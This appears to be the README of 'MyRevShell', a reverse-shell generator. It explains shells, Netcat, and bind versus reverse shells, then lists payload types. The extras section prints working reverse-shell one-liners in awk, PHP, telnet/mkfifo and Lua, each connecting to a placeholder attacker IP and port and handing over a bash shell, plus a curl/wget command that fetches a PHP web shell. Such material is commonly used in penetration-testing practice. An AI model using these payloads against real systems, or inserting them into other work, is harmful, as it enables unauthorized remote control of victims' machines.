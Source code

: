 # What is a Shell?
> - Shell is a program whose function is to provide an interface for users of an operating system to access kernel services. 
> - In general, operating system shells use either a command line interface (CLI) or a graphical user interface (GUI). 
> - It's called a shell because it's the outermost layer around the operating system. 
> #### More information: [Wikipedia-Shell](https://en.wikipedia.org/wiki/Shell_%28computing%29)
---

# What is Netcat? 
> - Considered the Swiss army knife of TCP/IP, Netcat is a networking tool used to read and write data over the network using TCP or UDP protocols. 
> ### Types:
> - [Ncat](https://nmap.org/ncat/)
> - [The GNU Netcat](https://netcat.sourceforge.net/)
> - [Netcat Tradicional](https://packages.debian.org/sid/netcat-traditional)
> - [Netcat OpenBSD](https://packages.debian.org/sid/netcat-openbsd)
> - [Netcat6](http://www.deepspace6.net/projects/netcat6.html)
> - [Socat](http://www.dest-unreach.org/socat/)
> #### More information: [Wikipedia-Netcat](https://en.wikipedia.org/wiki/Netcat)
---

# Reverse Shell and Bind Shell
> ### Bind Shell: 
> - Have the listener running on the target and the attacker connects to the listener to get a remote shell. 
> - The attacker must know the IP address of the victim before launching the Bind Shell. 
> - Bind Shell sometimes will fail, because modern firewalls don’t allow outsiders to connect to open ports.
> ### Reverse Shell:
> - Have the listener running on the attacker and the target connects to the attacker with a shell.
> - The attacker doesn’t need to know the IP address of the victim, because the attacker is going to connect to our open port.
> - Reverse Shell can bypass the firewall issues because this target machine tries to connect to the attacker, so the firewall doesn’t bother checking packets.
---

# MyRevShell
> The script has 16 shell generator options + 1 base64 encode option 
> ### Types:
> - "sh"
> - "zsh"
> - "bash"
> - "nc -c"
> - "nc -e"
> - "nc.exe -e"
> - "nc mkfifo"
> - "ncat -e"
> - "ncat.exe -e"
> - "python x1"
> - "python x2"
> - "python3 x1"
> - "python3 x2"
> - "python3 shortest"
> - "socat x1"
> - "socat x2"
> #### Extra:
> - Awk Shell:
> ``` 
> awk 'BEGIN {s = "/inet/tcp/0/#ip/#port"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } > } while(c != "exit") close(s); }}' /dev/null
> ```
> - PHP exec: 
> ```
> php -r '$sock=fsockopen("#ip",#port);exec("bash <&3 >&3 2>&3");'
> ```
> - Telnet:
> ```
> TF=$(mktemp -u);mkfifo $TF && telnet #ip #port 0<$TF | bash 1>$TF
> ```
> - Lua:
> ```
> lua -e "require('socket');require('os');t=socket.tcp();t:connect('#ip','#port');os.execute('bash -i <&3 >&3 2>&3');"
> ```
> ### Web Shell: 
> Download: 
> - **Curl/Wget: `curl/wget https://raw.githubusercontent.com/h0ru/My-Shell/main/shell.php -O shell.php`**
---
